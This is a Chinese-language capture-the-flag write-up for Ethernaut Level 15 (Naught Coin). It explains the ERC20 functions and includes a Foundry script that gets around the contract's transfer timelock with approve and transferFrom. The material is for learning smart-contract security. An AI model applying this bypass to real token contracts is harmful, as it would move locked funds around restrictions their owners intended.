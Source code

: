 # Level 15 - Naught Coin
## 題目
[Naught Coin](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F)

### 通關條件
NaughtCoin 是一種 ERC20 代幣，而且你已經持有這些代幣。問題是你只能在等待 10 年的鎖倉期之後才能轉移它們。你能不能嘗試將它們轉移到另一個地址，讓你可以自由地使用它們嗎？要完成這個關卡的話要讓你的帳戶餘額歸零。
### 提示
- [ERC20 標準](https://github.com/ethereum/ercs/blob/master/ERCS/erc-20.md)
- [OpenZeppelin 程式庫](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts)
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
## 解題
**ERC20** 就是在智能合約中實現發行 Fungible Token (同質化代幣) 的一種代幣標準。簡單來說只要符合 ERC20 中的規範，就可以在 Ethereum 創造自己的代幣並交易，ERC20 中規範發行代幣的合約必須要實現以下六個功能：
  1. 總供給量：`function totalSupply() public view returns (uint256);`  
  一個代幣的總發行量
  2. 帳戶餘額：`function balanceOf(address _owner) public view returns (uint256 balance)` 
  你剩多少代幣
  3. 轉帳：`function transfer(address _to, uint256 _value) public returns (bool success)`  
  你要轉 `_value` 代幣給 `_to`
  
  前三個比較好理解，後面三個比較像是託管的概念：
  
  4. 授權轉帳：`function transferFrom(address _from, address _to, uint256 _value) public returns (bool success)`  
  從 `_from` 轉 `_value` 個代幣到 `_to`，使用後**授權額度**會減少
  5. 授權：`function approve(address _spender, uint256 _value) public returns (bool success)`  
  允許 `_spender` 可以控制你 `_value` 個代幣，使用後**授權額度**會增加
  6. 授權額度：`function allowance(address _owner, address _spender) public view returns (uint256 remaining)`
  回傳 `_spender` 可以控制 `_owner` 多少代幣

針對 ERC20，可以參考一下這些文章：
- [What is the ERC20 token standard?](https://www.bitpanda.com/academy/en/lessons/what-is-the-erc20-token-standard/)
- [到底什麼是ERC-20?](https://medium.com/myethacademy/%E5%88%B0%E5%BA%95%E4%BB%80%E9%BA%BC%E6%98%AFerc-20-49d052e8d290)
- [WTF Solidity极简入门: 31. ERC20](https://github.com/AmazingAng/WTF-Solidity/tree/main/31_ERC20)


---

理解完 ERC20 後，看回來題目。題目要求我們把自己的代幣歸零，歸零的方法就是把代幣通通轉出去，轉出去可以透過**轉帳(transfer), 授權轉帳(transferFrom)** 兩種方式，但是`transfer()`已經被題目實作而且限制 10 年後才能領取。所以這裡我們只要使用**授權轉帳**  的方法就可以把自己的錢轉出去了。  
**授權轉帳**在上一點介紹ERC20的時候有提到過，要先透過**授權**給別的地址，別的地址才可以控制我們的代幣，所以這題的攻擊流程如下：  
  1. **授權**給自己:  
  `approve(address(wallet), 1000000 * (10**18))`
  2. 使用**授權轉帳**把我們錢包的代幣轉回去關卡實例：  `transferFrom(me, address(level15), 1000000 * (10**18)`  

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/15_NaughtCoin.sol";

contract ExploitScript is Script {
    NaughtCoin level15 = NaughtCoin(payable(your_challenge_address));
    address wallet = your_wallet_address; // wallet address

    function run() external {
        vm.startBroadcast();

        uint256 coin = level15.balanceOf(wallet);
        level15.approve(wallet, coin);
        level15.transferFrom(wallet, address(level15), coin);
        
        vm.stopBroadcast();
    }
}
```